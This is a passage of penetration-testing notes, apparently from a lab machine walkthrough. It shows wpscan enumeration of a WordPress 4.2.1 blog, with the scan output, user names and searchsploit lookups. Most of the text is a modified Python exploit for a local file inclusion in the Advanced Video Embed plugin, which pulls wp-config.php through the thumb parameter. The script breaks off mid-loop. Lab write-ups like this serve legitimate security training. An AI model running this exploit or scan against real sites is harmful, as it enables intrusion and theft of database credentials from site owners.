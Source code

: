 wpscan:
```bash
wpscan --disable-tls-checks --url https://red:12380/blogblog/ -e --plugins-detection aggressive -o wpscan

# WordPress version 4.2.1

# /blogblog/xmlrpc.php
# /blogblog/wp-content/uploads/
# /blogblog/wp-cron.php

wpscan --disable-tls-checks --url https://10.0.0.26:12380/blogblog/ -e ap --plugins-detection aggressive p12380_blogblo_wpscan.txt

# Plugins
# advanced-video-embed-embed-videos-or-playlists - Version: 1.0
# akismet
# shortcode-ui - Version: 0.6.2
# two-factor
```
=> more users: peter, heather, garry, harry, scott

Search WP plugin exploits:
```bash
searchsploit Advanced video
# WordPress Plugin Advanced Video 1.0 - Local File Inclusion                      | php/webapps/39646.py

searchsploit akismet
# 2 XSS

searchsploit shortcode
# WordPress Plugin ShortCode 0.2.3 - Local File Inclusion | php/webapps/34436.txt

searchsploit two-factor
# nothing
```

Modified pyhton3 Exploit 39646 https://gist.github.com/kongwenbin/8e89f553641bd76b1ee4bb93460fbb2c
```python
import random
import requests
import re

url = "https://10.0.0.26:12380/blogblog/"  # Insert the URL to your WordPress site

randomID = int(random.random() * 100000000000000000)

# Make the first request
response1 = requests.get(f"{url}/wp-admin/admin-ajax.php?action=ave_publishPost&title={randomID}&short=rnd&term=rnd&thumb=../wp-config.php", verify=False)
content1 = response1.text.splitlines()
print(content1)

for line in content1:
    numbers = re.findall(r'\d+', line)
    id = numbers[-1]
    id = int(id) // 10

# Make the second request
response2 = requests.get(f"{url}/?p={id}", verify=False)
content2 = response2.text.splitlines()

for line in content2:
    if 'attachment-post-thumbnail size-post-thumbnail wp-post-image' in line:
```